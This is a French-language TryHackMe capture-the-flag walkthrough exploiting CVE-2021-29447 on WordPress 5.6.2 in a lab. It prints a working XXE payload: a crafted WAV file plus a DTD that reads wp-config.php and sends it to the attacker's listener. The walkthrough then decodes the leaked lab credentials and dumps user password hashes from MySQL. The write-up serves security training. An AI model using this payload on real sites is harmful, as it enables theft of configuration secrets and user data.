




# Wordpress: CVE-2021-29447 #

## Task 1 ##

```bash
im@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.33.119 wordpress.thm' > /etc/hosts"
[sudo] Mot de passe de tim : 
```

**Use the vulnerability CVE-2021-29447 to read the wordpress configuration file.**

## Task 2 Ready Set Go ##

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wpscan --url wordpress.thm -e vp, vt, cb
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.18
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://wordpress.thm/ [10.10.33.119]
[+] Started: Mon Aug 30 10:55:10 2021

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.18 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] WordPress readme found: http://wordpress.thm/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://wordpress.thm/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://wordpress.thm/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.6.2 identified (Insecure, released on 2021-02-22).
 | Found By: Rss Generator (Passive Detection)
 |  - http://wordpress.thm/index.php/feed/, <generator>https://wordpress.org/?v=5.6.2</generator>
 |  - http://wordpress.thm/index.php/comments/feed/, <generator>https://wordpress.org/?v=5.6.2</generator>
 ...
```

On énumère le site avec wpscan on trouve que c'est la version 5.6.2.     

Elle est vulnérable au CVE-2021-29447


```bash
tim@kali:~/Bureau/tryhackme/write-up$ echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://10.9.228.66:1234/NAMEEVIL.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav
```

On crée un charge utile.  
Qui va récupérer le fichier qui va lire le fichier que l'on veut.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ cat NAMEEVIL.dtd 
<!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=../wp-config.php">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://10.9.228.66:1234/?p=%file;'>" >
```

On créer le fichier qui va lire le fichier cible.    



On se connecte avec le nom test-corp et le mot de passe corp.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ php -S 0.0.0.0:1234
[Mon Aug 30 12:22:41 2021] PHP 7.4.21 Development Server (http://0.0.0.0:1234) started
```

On lance un serveur pour que la machine récupère NAMEEVIL.dtd.   



On téléverse notre faux fichier.wav.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ php -S 0.0.0.0:1234
[Mon Aug 30 13:23:40 2021] PHP 7.4.21 Development Server (http://0.0.0.0:1234) started
[Mon Aug 30 13:24:22 2021] 10.10.33.119:49648 Accepted
[Mon Aug 30 13:24:22 2021] 10.10.33.119:49648 [200]: (null) /NAMEEVIL.dtd
[Mon Aug 30 13:24:22 2021] 10.10.33.119:49648 Closing
[Mon Aug 30 13:24:22 2021] 10.10.33.119:49650 Accepted
[Mon Aug 30 13:24:22 2021] 10.10.33.119:49650 [404]: (null) /?p=nVZtT+NGEP5cJP7DcK2UKyVxOaSq4lqVQFKCLkdonAjdp2hjr+0Vzu7evoSLTvffO7N2HIdDreA4CWPPPPP+zPzxly704UF0fHx4AMcwKzgsmeWQKJmJ3BvmhJKQKQP3yqR3hltLgo3wo+5Woj3EgcTwSsEmRmgH3nILrhAWMlFySL0RMscXPOgLaR0ry6DRg0/KQ6pkx0HB1hycIm2ShUe+BCscP4ENyiRMBu1E6U0LG+Xf7DnzBphM6VuJhgLOmpWe217L/60yajmG7gSxTJWleiRH95JgzxvFY/i4if8Zg+XOoZytX8Yc43fwwDfbNwPmWEgn/kIz2vBMfKm/9S/ju/5s1IBelEI+QOGctudR9IjZ1pTtnjJ5ZL3WyriIGSeSkkc8FWS42wTcxYCjHZRmyQPL+X7N8DsWOoLjp+5DNyQfEws5+h9yKmSmIDNqRTk3oQSFso6Uoyj0Syi/ZCsOKgt5S7fB7nVLsJti3JK/hc7gcnHb/zjsnECniTBdvuvAz++Dd41vDRg2gQlWnuLM4+GUcNB0ysyDYzLn0v0HkmbWktHvkO76cXw/mQ4Izc71mYnPqJCnZ8/4RUl41p3RJJ4RQKkSVpJUW7fpg6uCGUs5rrobG7MaGWy2dK9XbO87C1ej/jQeBiPeZb+38akUOxuKZgpxNpr3YBBGKikoPXVpM7KbKr90zxiZjMf9WShQy8CPF7+Exup7zLbEHqymfC7FZ8/hAzZ8GLaYla41X1dbo9yG+UxFlnGD+uArRV0YdNgeBeldC0pugv9Bz9uaMuDr/oQwLXpPpiTMXxfnLzrtnUYWvYl2jUgisBPBR7MWCf+2Zzxpu8wcRrUBrQS6TBwiViEOIZFJREo+In0B/yKsq+hCPQiqXCCWR2IeHIWkkqI+tqS9ZbdS5QTKciSeXc4uMFzUeNf7rfdrPbRNefrz2WjxYfgJi7P919HeVRO6l1IoMM9V/RrteHg1nw4XbZAXaI8n19fDweLmdufAC7RvJ7dXw33XX6AdXI7749mrtNtx1yCvirtx4MVx77n+/9r1xHVrwq43845Qm0GftZbKroO2rRz6bOVLJ3TJ93YtsTso2WJspARarblAFc6SIgCxxsPKAkxkuQHpV0vs5BMocXuEB5p8L1N8ThQ6CGgOMY/q7v0p0NmiwoA/kfe1M5tF5307uL9xY6R8zUulEea8FWzKlz7PabpWKuXPcIsIQ+WMD0PFZchJWEfC6pJtaDtJhZSFntX3R21phUwUAOEGx9uCdUbJHEM0PFEr/JryFJGQBXTpcxpVSX9zJIGdr4HG7+8Wg+Hl/Lq+akhImLYZ9GstEJ2eWwRJYdOiNauKT+k/6ho6PLBcKFvZp3IuwypMw3JtknISYNYCr6MqZpV4slGdVK86LRrsrpDdRjR6ykXbkLGvM1ZiDradi+THXMcS551gSpWG+lg5ghHTeLJpvyyFLfDN3vYhxNEknAYBsDVH9Cm+mQ3n03H7a7X6+kurSu9ovbsitELB2/0jsJpOmU1lDBv9LRxBBZwSt1RXGE4e/nw9PPhhxzr1lxNYLAY308UCetCJqhH9trUec6yR1y2Da1zwoVOQx0tPLUQXZr3ODf/s0aGFIo6vDRAs3nHbY4xOVxqOfwE= - No such file or directory
[Mon Aug 30 13:24:22 2021] 10.10.33.119:49650 Closing
[Mon Aug 30 13:24:22 2021] 10.10.33.119:49652 Accepted
[Mon Aug 30 13:24:22 2021] 10.10.33.119:49652 [200]: (null) /NAMEEVIL.dtd
[Mon Aug 30 13:24:22 2021] 10.10.33.119:49652 Closing
[Mon Aug 30 13:24:22 2021] 10.10.33.119:49654 Accepted
[Mon Aug 30 13:24:22 2021] 10.10.33.119:49654 [404]: (null) /?p=nVZtT+NGEP5cJP7DcK2UKyVxOaSq4lqVQFKCLkdonAjdp2hjr+0Vzu7evoSLTvffO7N2HIdDreA4CWPPPPP+zPzxly704UF0fHx4AMcwKzgsmeWQKJmJ3BvmhJKQKQP3yqR3hltLgo3wo+5Woj3EgcTwSsEmRmgH3nILrhAWMlFySL0RMscXPOgLaR0ry6DRg0/KQ6pkx0HB1hycIm2ShUe+BCscP4ENyiRMBu1E6U0LG+Xf7DnzBphM6VuJhgLOmpWe217L/60yajmG7gSxTJWleiRH95JgzxvFY/i4if8Zg+XOoZytX8Yc43fwwDfbNwPmWEgn/kIz2vBMfKm/9S/ju/5s1IBelEI+QOGctudR9IjZ1pTtnjJ5ZL3WyriIGSeSkkc8FWS42wTcxYCjHZRmyQPL+X7N8DsWOoLjp+5DNyQfEws5+h9yKmSmIDNqRTk3oQSFso6Uoyj0Syi/ZCsOKgt5S7fB7nVLsJti3JK/hc7gcnHb/zjsnECniTBdvuvAz++Dd41vDRg2gQlWnuLM4+GUcNB0ysyDYzLn0v0HkmbWktHvkO76cXw/mQ4Izc71mYnPqJCnZ8/4RUl41p3RJJ4RQKkSVpJUW7fpg6uCGUs5rrobG7MaGWy2dK9XbO87C1ej/jQeBiPeZb+38akUOxuKZgpxNpr3YBBGKikoPXVpM7KbKr90zxiZjMf9WShQy8CPF7+Exup7zLbEHqymfC7FZ8/hAzZ8GLaYla41X1dbo9yG+UxFlnGD+uArRV0YdNgeBeldC0pugv9Bz9uaMuDr/oQwLXpPpiTMXxfnLzrtnUYWvYl2jUgisBPBR7MWCf+2Zzxpu8wcRrUBrQS6TBwiViEOIZFJREo+In0B/yKsq+hCPQiqXCCWR2IeHIWkkqI+tqS9ZbdS5QTKciSeXc4uMFzUeNf7rfdrPbRNefrz2WjxYfgJi7P919HeVRO6l1IoMM9V/RrteHg1nw4XbZAXaI8n19fDweLmdufAC7RvJ7dXw33XX6AdXI7749mrtNtx1yCvirtx4MVx77n+/9r1xHVrwq43845Qm0GftZbKroO2rRz6bOVLJ3TJ93YtsTso2WJspARarblAFc6SIgCxxsPKAkxkuQHpV0vs5BMocXuEB5p8L1N8ThQ6CGgOMY/q7v0p0NmiwoA/kfe1M5tF5307uL9xY6R8zUulEea8FWzKlz7PabpWKuXPcIsIQ+WMD0PFZchJWEfC6pJtaDtJhZSFntX3R21phUwUAOEGx9uCdUbJHEM0PFEr/JryFJGQBXTpcxpVSX9zJIGdr4HG7+8Wg+Hl/Lq+akhImLYZ9GstEJ2eWwRJYdOiNauKT+k/6ho6PLBcKFvZp3IuwypMw3JtknISYNYCr6MqZpV4slGdVK86LRrsrpDdRjR6ykXbkLGvM1ZiDradi+THXMcS551gSpWG+lg5ghHTeLJpvyyFLfDN3vYhxNEknAYBsDVH9Cm+mQ3n03H7a7X6+kurSu9ovbsitELB2/0jsJpOmU1lDBv9LRxBBZwSt1RXGE4e/nw9PPhhxzr1lxNYLAY308UCetCJqhH9trUec6yR1y2Da1zwoVOQx0tPLUQXZr3ODf/s0aGFIo6vDRAs3nHbY4xOVxqOfwE= - No such file or directory
[Mon Aug 30 13:24:22 2021] 10.10.33.119:49654 Closing
```

On obtient la réponse encodée en base64 et zlib.

```bash
tim@kali:~/Bureau/tryhackme/write-up$ cat decode.php 
<?php echo zlib_decode(base64_decode('nVZtT+NGEP5cJP7DcK2UKyVxOaSq4lqVQFKCLkdonAjdp2hjr+0Vzu7evoSLTvffO7N2HIdDreA4CWPPPPP+zPzxly704UF0fHx4AMcwKzgsmeWQKJmJ3BvmhJKQKQP3yqR3hltLgo3wo+5Woj3EgcTwSsEmRmgH3nILrhAWMlFySL0RMscXPOgLaR0ry6DRg0/KQ6pkx0HB1hycIm2ShUe+BCscP4ENyiRMBu1E6U0LG+Xf7DnzBphM6VuJhgLOmpWe217L/60yajmG7gSxTJWleiRH95JgzxvFY/i4if8Zg+XOoZytX8Yc43fwwDfbNwPmWEgn/kIz2vBMfKm/9S/ju/5s1IBelEI+QOGctudR9IjZ1pTtnjJ5ZL3WyriIGSeSkkc8FWS42wTcxYCjHZRmyQPL+X7N8DsWOoLjp+5DNyQfEws5+h9yKmSmIDNqRTk3oQSFso6Uoyj0Syi/ZCsOKgt5S7fB7nVLsJti3JK/hc7gcnHb/zjsnECniTBdvuvAz++Dd41vDRg2gQlWnuLM4+GUcNB0ysyDYzLn0v0HkmbWktHvkO76cXw/mQ4Izc71mYnPqJCnZ8/4RUl41p3RJJ4RQKkSVpJUW7fpg6uCGUs5rrobG7MaGWy2dK9XbO87C1ej/jQeBiPeZb+38akUOxuKZgpxNpr3YBBGKikoPXVpM7KbKr90zxiZjMf9WShQy8CPF7+Exup7zLbEHqymfC7FZ8/hAzZ8GLaYla41X1dbo9yG+UxFlnGD+uArRV0YdNgeBeldC0pugv9Bz9uaMuDr/oQwLXpPpiTMXxfnLzrtnUYWvYl2jUgisBPBR7MWCf+2Zzxpu8wcRrUBrQS6TBwiViEOIZFJREo+In0B/yKsq+hCPQiqXCCWR2IeHIWkkqI+tqS9ZbdS5QTKciSeXc4uMFzUeNf7rfdrPbRNefrz2WjxYfgJi7P919HeVRO6l1IoMM9V/RrteHg1nw4XbZAXaI8n19fDweLmdufAC7RvJ7dXw33XX6AdXI7749mrtNtx1yCvirtx4MVx77n+/9r1xHVrwq43845Qm0GftZbKroO2rRz6bOVLJ3TJ93YtsTso2WJspARarblAFc6SIgCxxsPKAkxkuQHpV0vs5BMocXuEB5p8L1N8ThQ6CGgOMY/q7v0p0NmiwoA/kfe1M5tF5307uL9xY6R8zUulEea8FWzKlz7PabpWKuXPcIsIQ+WMD0PFZchJWEfC6pJtaDtJhZSFntX3R21phUwUAOEGx9uCdUbJHEM0PFEr/JryFJGQBXTpcxpVSX9zJIGdr4HG7+8Wg+Hl/Lq+akhImLYZ9GstEJ2eWwRJYdOiNauKT+k/6ho6PLBcKFvZp3IuwypMw3JtknISYNYCr6MqZpV4slGdVK86LRrsrpDdRjR6ykXbkLGvM1ZiDradi+THXMcS551gSpWG+lg5ghHTeLJpvyyFLfDN3vYhxNEknAYBsDVH9Cm+mQ3n03H7a7X6+kurSu9ovbsitELB2/0jsJpOmU1lDBv9LRxBBZwSt1RXGE4e/nw9PPhhxzr1lxNYLAY308UCetCJqhH9trUec6yR1y2Da1zwoVOQx0tPLUQXZr3ODf/s0aGFIo6vDRAs3nHbY4xOVxqOfwE=')); ?>

tim@kali:~/Bureau/tryhackme/write-up$ php decode.php 
<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the
 * installation. You don't have to use the web site, you can
 * copy this file to "wp-config.php" and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * MySQL settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://wordpress.org/support/article/editing-wp-config-php/
 *
 * @package WordPress
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpressdb2' );

/** MySQL database username */
define( 'DB_USER', 'thedarktangent' );

/** MySQL database password */
define( 'DB_PASSWORD', 'sUp3rS3cret132' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

/**#@+
 * Authentication Unique Keys and Salts.
 *
 * Change these to different unique phrases!
 * You can generate these using the {@link https://api.wordpress.org/secret-key/1.1/salt/ WordPress.org secret-key service}
 * You can change these at any point in time to invalidate all existing cookies. This will force all users to have to log in again.
 *
 * @since 2.6.0
 */
define( 'AUTH_KEY',         'put your unique phrase here' );
define( 'SECURE_AUTH_KEY',  'put your unique phrase here' );
define( 'LOGGED_IN_KEY',    'put your unique phrase here' );
define( 'NONCE_KEY',        'put your unique phrase here' );
define( 'AUTH_SALT',        'put your unique phrase here' );
define( 'SECURE_AUTH_SALT', 'put your unique phrase here' );
define( 'LOGGED_IN_SALT',   'put your unique phrase here' );
define( 'NONCE_SALT',       'put your unique phrase here' );

/**#@-*/

/**
 * WordPress Database Table prefix.
 *
 * You can have multiple installations in one database if you give each
 * a unique prefix. Only numbers, letters, and underscores please!
 */
$table_prefix = 'wptry_';

/**
 * For developers: WordPress debugging mode.
 *
 * Change this to true to enable the display of notices during development.
 * It is strongly recommended that plugin and theme developers use WP_DEBUG
 * in their development environments.
 *
 * For information on other constants that can be used for debugging,
 * visit the documentation.
 *
 * @link https://wordpress.org/support/article/debugging-in-wordpress/
 */
define( 'WP_DEBUG', false );

/* That's all, stop editing! Happy publishing. */
define('WP_HOME', false);
define('WP_SITEURL', false);

/** Absolute path to the WordPress directory. */
if ( ! defined( 'ABSPATH' ) ) {
	define( 'ABSPATH', __DIR__ . '/' );
}

/** Sets up WordPress vars and included files. */
require_once ABSPATH . 'wp-settings.php';

```

On décode le fichier.  

D'arpès le fichier wp-config.php le nom de base de donnée est : wordpressdb2.   

**Based on the results of #1, what are the credentials you found?**

Dans le fichier de configuration les identifiants sont :       
Nom : thedarktangent   
Le mot de passe est : sUp3rS3cret132   

La réponse est : thedarktangent:sUp3rS3cret132

**Enumerate and identify what is the dbms installed on the server?**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A wordpress.thm 
[sudo] Mot de passe de tim : 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-30 13:34 CEST
Nmap scan report for wordpress.thm (10.10.33.119)
Host is up (0.039s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f0:65:b8:42:b7:c3:ba:8e:fe:e4:3c:cd:57:f1:29:2e (RSA)
|   256 42:1e:1b:8f:19:38:99:2e:36:70:cf:0e:b6:31:92:14 (ECDSA)
|_  256 8e:89:43:de:5d:9b:99:66:c4:2a:93:17:f3:0e:e1:f4 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 5.6.2
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Tryhackme &#8211; Just another WordPress site
3306/tcp open  mysql   MySQL 5.7.33-0ubuntu0.16.04.1
| mysql-info: 
|   Protocol: 10
|   Version: 5.7.33-0ubuntu0.16.04.1
|   Thread ID: 209
|   Capabilities flags: 65535
|   Some Capabilities: SupportsCompression, Support41Auth, IgnoreSigpipes, SupportsLoadDataLocal, DontAllowDatabaseTableColumn, Speaks41ProtocolOld, SupportsTransactions, SwitchToSSLAfterHandshake, InteractiveClient, Speaks41ProtocolNew, LongColumnFlag, IgnoreSpaceBeforeParenthesis, ODBCClient, LongPassword, FoundRows, ConnectWithDatabase, SupportsMultipleStatments, SupportsMultipleResults, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: ;v\x14@|w;\x0BS\x10H<\x05YQ<K\x0E?1
|_  Auth Plugin Name: mysql_native_password
| ssl-cert: Subject: commonName=MySQL_Server_5.7.33_Auto_Generated_Server_Certificate
| Not valid before: 2021-05-26T21:23:31
|_Not valid after:  2031-05-24T21:23:31
|_ssl-date: TLS randomness does not represent time
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=8/30%OT=22%CT=1%CU=40865%PV=Y%DS=2%DC=T%G=Y%TM=612CC27
OS:4%P=x86_64-pc-linux-gnu)SEQ(SP=FF%GCD=1%ISR=10E%TI=Z%CI=I%II=I%TS=8)SEQ(
OS:SP=102%GCD=1%ISR=10D%TI=Z%CI=I%TS=8)OPS(O1=M506ST11NW6%O2=M506ST11NW6%O3
OS:=M506NNT11NW6%O4=M506ST11NW6%O5=M506ST11NW6%O6=M506ST11)WIN(W1=68DF%W2=6
OS:8DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M506NNSNW
OS:6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF
OS:=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=
OS:%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=
OS:0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RI
OS:PCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 110/tcp)
HOP RTT      ADDRESS
1   32.47 ms 10.9.0.1
2   32.80 ms wordpress.thm (10.10.33.119)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.58 seconds

```

D'après le scan de nmap la base de donnée est : mysql

**Based on the results of #4, what is the dbms version installed on the server?**

Nmap nous dit la version de mysql est : 5.7.33    

**Based on the results of #4, what port is the dbms running on?**

Nmap nous indique que mysql tourne sur le port : 3306    

**Compromise the dbms, What is the encrypted password located in the wordpress  users table with id 1??**

```bash
MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| wordpressdb2       |
+--------------------+
5 rows in set (0.039 sec)

MySQL [(none)]> use wordpressdb2;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [wordpressdb2]> show tables;
+--------------------------+
| Tables_in_wordpressdb2   |
+--------------------------+
| wptry_commentmeta        |
| wptry_comments           |
| wptry_links              |
| wptry_options            |
| wptry_postmeta           |
| wptry_posts              |
| wptry_term_relationships |
| wptry_term_taxonomy      |
| wptry_termmeta           |
| wptry_terms              |
| wptry_usermeta           |
| wptry_users              |
+--------------------------+
12 rows in set (0.033 sec)

MySQL [wordpressdb2]> select * from wptry_users;
+----+------------+------------------------------------+---------------+------------------------------+----------------------------------+---------------------+-----------------------------------------------+-------------+------------------+
| ID | user_login | user_pass                          | user_nicename | user_email                   | user_url                         | user_registered     | user_activation_key                           | user_status | display_name     |
+----+------------+------------------------------------+---------------+------------------------------+----------------------------------+---------------------+-----------------------------------------------+-------------+------------------+
|  1 | corp-001   | $P$B4fu6XVPkSU5KcKUsP1sD3Ul7G3oae1 | corp-001      | corp-001@fakemail.com        | http://192.168.85.131/wordpress2 | 2021-05-26 23:35:28 |                                               |           0 | corp-001         |
|  2 | test-corp  | $P$Bk3Zzr8rb.5dimh99TRE1krX8X85eR0 | test-corp     | test-corp@tryhackme.fakemail |                                  | 2021-05-26 23:47:32 | 1622072852:$P$BJWv.2ehT6U5Ndg/xmFlLobPl37Xno0 |           0 | Corporation Test |
+----+------------+------------------------------------+---------------+------------------------------+----------------------------------+---------------------+-----------------------------------------------+-------------+----------------
```

On regarde dans la base de données.  
